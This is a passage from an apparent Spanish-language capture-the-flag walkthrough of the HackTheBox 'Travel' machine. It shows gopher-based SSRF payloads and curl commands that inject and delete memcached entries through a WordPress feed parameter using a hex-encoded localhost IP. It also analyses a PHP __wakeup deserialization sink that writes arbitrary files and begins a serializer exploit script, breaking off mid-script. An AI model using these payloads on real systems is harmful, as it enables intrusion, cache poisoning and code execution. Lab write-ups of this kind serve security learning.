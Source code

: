 ```null
After everything done, you can delete memcached item by using this payload: 

gopher://127.0.0.1:11211/_%0d%0adelete%20SpyD3r%0d%0a

-----------Made-by-SpyD3r-----------
```

Hay que tener en cuenta el formato de la IP para que esté en hexadecimal

```null
curl -s -X GET 'http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://0x7f000001:11211/_%0d%0aset%20SpyD3r%204%200%204%0d%0aTest%0d%0a'
```

```null
curl -s -X GET http://blog.travel.htb/wp-content/themes/twentytwenty/debug.php
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
| SpyD3r | Test |
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
```

En el archivo ```template.php``` hay una clase

```null
class TemplateHelper
{

    private $file;
    private $data;

    public function __construct(string $file, string $data)
    {
        $this->init($file, $data);
    }

    public function __wakeup()
    {
        $this->init($this->file, $this->data);
    }

    private function init(string $file, string $data)
    {       
        $this->file = $file;
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
}
```

La función ```__wakeup()``` es una Magic Function que se encargad e serializar los datos. Se le pasa como argumentos el nombre de un archivo y su contenido, para depositarlo posteriormente dentro del directorio ```/logs```

Creo un script en PHP que se encargue de serializar los datos

```null
<?php
class TemplateHelper
{

    public $file;
    public $data;

    public function __construct(string $file, string $data)
    {
        $this->init($file, $data);
    }

```